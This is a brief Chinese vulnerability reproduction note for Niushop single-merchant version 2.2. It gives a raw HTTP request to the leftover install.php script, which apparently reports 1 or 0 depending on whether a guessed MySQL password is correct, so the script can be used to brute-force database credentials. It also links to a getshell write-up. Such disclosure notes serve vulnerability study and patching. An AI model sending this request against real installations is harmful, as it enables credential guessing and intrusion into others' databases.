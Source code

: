 Niushop 单商户 2.2 爆破MySQL密码
================================

一、漏洞简介
------------

二、漏洞影响
------------

Version：单商户 2.2

三、复现过程
------------

### 安装爆破MySQL密码

    GET /niushop/install.php?action=true&dbserver=127.0.0.1&dbpassword=root2&dbusername=root&dbname=niushop_b2c HTTP/1.1
    Host: 127.0.0.1
    Accept: */*
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
    Referer: http://127.0.0.1/niushop/install.php?refresh
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
    Cookie: action=db
    Connection: close

![](./.resource/Niushop单商户2.2爆破MySQL密码/media/rId25.jpg)

爆破成功返回1，密码错误返回0

参考链接
--------

> https://y4er.com/post/niushop-getshell/
